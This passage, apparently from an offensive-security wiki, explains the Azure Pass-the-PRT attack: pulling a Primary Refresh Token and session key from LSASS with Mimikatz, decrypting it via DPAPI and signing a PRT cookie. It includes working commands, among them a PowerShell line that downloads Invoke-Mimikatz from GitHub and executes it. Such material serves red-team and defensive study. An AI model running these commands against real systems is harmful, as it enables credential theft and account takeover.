Then go to [https://portal.azure.com](https://portal.azure.com)

> [!CAUTION]
> The rest should be the defaults. Make sure you can refresh the page and the cookie doesn’t disappear, if it does, you may have made a mistake and have to go through the process again. If it doesn’t, you should be good.

### Attack - Mimikatz

#### Steps

1. The **PRT (Primary Refresh Token) is extracted from LSASS** (Local Security Authority Subsystem Service) and stored for subsequent use.
2. The **Session Key is extracted next**. Given that this key is initially issued and then re-encrypted by the local device, it necessitates decryption using a DPAPI masterkey. Detailed information about DPAPI (Data Protection API) can be found in these resources: [HackTricks](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords.html) and for an understanding of its application, refer to [Pass-the-cookie attack](az-pass-the-cookie.md).
3. Post decryption of the Session Key, the **derived key and context for the PRT are obtained**. These are crucial for the **creation of the PRT cookie**. Specifically, the derived key is employed for signing the JWT (JSON Web Token) that constitutes the cookie. A comprehensive explanation of this process has been provided by Dirk-jan, accessible [here](https://dirkjanm.io/digging-further-into-the-primary-refresh-token/).

> [!CAUTION]
> Note that if the PRT is inside the TPM and not inside `lsass` **mimikatz won't be able to extract it**.\
> However, it will be possible to g**et a key from a derive key from a context** from the TPM and use it to **sign a cookie (check option 3).**

You can find an **in depth explanation of the performed process** to extract these details in here: [**https://dirkjanm.io/digging-further-into-the-primary-refresh-token/**](https://dirkjanm.io/digging-further-into-the-primary-refresh-token/)

> [!WARNING]
> This won't exactly work post August 2021 fixes to get other users PRT tokens as only the user can get his PRT (a local admin cannot access other users PRTs), but can access his.

You can use **mimikatz** to extract the PRT:

```bash
mimikatz.exe
Privilege::debug
Sekurlsa::cloudap

# Or in powershell
iex (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1")
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::cloudap"'
```

(Images from https://blog.netwrix.com/2023/05/13/pass-the-prt-overview)
